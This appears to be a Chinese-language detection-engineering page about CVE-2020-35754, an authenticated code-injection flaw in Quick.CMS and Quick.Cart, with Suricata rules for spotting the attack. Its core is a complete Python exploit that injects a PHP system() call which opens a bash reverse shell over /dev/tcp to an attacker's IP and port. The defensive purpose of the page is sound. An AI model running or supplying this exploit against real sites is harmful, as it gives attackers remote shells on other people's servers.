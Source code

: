 # T1190-CVE-2020-35754-QuickCms访问控制错误漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Opensolution Quick.Cart和Opensolution Quick.Cms都是波兰Opensolution公司的产品。Opensolution Quick.Cart是一款用于构建购物车平台的建站系统。Opensolution Quick.Cms是一款用于构建文本管理平台的建站系统。 OpenSolution Quick.CMS ＜ 6.7 and Quick.Cart ＜ 6.7 存在注入漏洞，该漏洞允许经过身份验证的用户通过Language选项卡的输入字段执行代码注入。

## 检测日志

HTTP

## 测试复现

POC&&EXP

```yml
# Exploit Title: Quick.CMS 6.7 - Remote Code Execution (Authenticated)
# Date: 2020-12-28
# Exploit Author: mari0x00
# Vendor Homepage: https://opensolution.org/
# Software Link: https://opensolution.org/download/?sFile=Quick.Cms_v6.7-pl.zip
# Description: https://secator.pl/index.php/2021/01/28/cve-2020-35754-authenticated-rce-in-quick-cms-and-quick-cart/
# Version: <= 6.7
# CVE : CVE-2020-35754

#!/usr/bin/python3

import requests
import sys
from termcolor import colored
from time import sleep

print(colored('''###########################################################''',"red"))
print(colored('''######    Quick.CMS authenticated RCE by mari0x00   #######''',"red"))
print(colored('''###########################################################''',"red"))
print("")

if len(sys.argv) != 6:
    print((colored("[~] Usage : python3 quickpwn.py <url> <username> <password> <IP> <PORT>","red")))
    print((colored("[~] Example: python3 quickpwn.py http://192.168.101.105/quick.cms/ john@example.com pass123 192.168.101.101 4444","red")))
    exit()
url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
IP = sys.argv[4]
PORT = sys.argv[5]


#Start session
s = requests.Session()
headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'}


#Authenticate
print((colored("[+] Attempting user login","blue")))

login_data = {
    "sEmail": username,
    "sPass": password,
    "bAcceptLicense": "1",
    "iAcceptLicense": "true"
   }

login = s.post(url+"admin.php?p=login", login_data, headers=headers)
sleep(0.5)


#Exploit
print((colored("[+] Adding shell command","blue")))
payload = "Back end\\\"; system('/bin/bash -c \\'bash -i >& /dev/tcp/" + IP + "/" + PORT + " 0>&1\\''); //"

shell = {
    "sOption": "save",
    "Back_end_only": payload
}

exploit = s.post(url+"admin.php?p=languages&sLangEdit=en", shell, headers=headers)
sleep(1)

#Triggering reverse shell (three times just in case)
print("")
print((colored("[+] Triggering the shell. Go nuts!","green")))
r = s.get(url+"admin.php?p=languages", headers=headers)
sleep(1)
r = s.get(url+"admin.php?p=languages", headers=headers)
sleep(1)
r = s.get(url+"admin.php?p=languages", headers=headers)
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"CVE-2020-35754-QuickCms-1";flow:established,to_server;content:"POST";http_method;content:"/quickcmsadmin.php?p=";http_uri;content:"bAcceptLicense=1&iAcceptLicense=true";http_client_body;flowbits:set,first_req;noalert;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2020-35754-QuickCms-2";flow:established,to_server;content:"POST";http_method;content:"/quickcmsadmin.php?p=";http_uri;content:"Back_end_only=";http_client_body;flowbits:isset,first_req;noalert;flowbits:set,second-req;classtype:web-application-attck;sid:2;rev:1;)

alert http any any -> any any (msg:"CVE-2020-35754-QuickCms访问控制错误漏洞";flow:established,to_server;content:"GET";http_method;content:"/quickcmsadmin.php?p=languages";http_uri;flowbits:isset,second-req;reference:url,www.anquanke.com/vul/id/2332309;classtype:web-application-attck;sid:3;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Opensolution Quick.Cart和Opensolution Quick.Cms访问控制错误漏洞

<https://www.anquanke.com/vul/id/2332309>
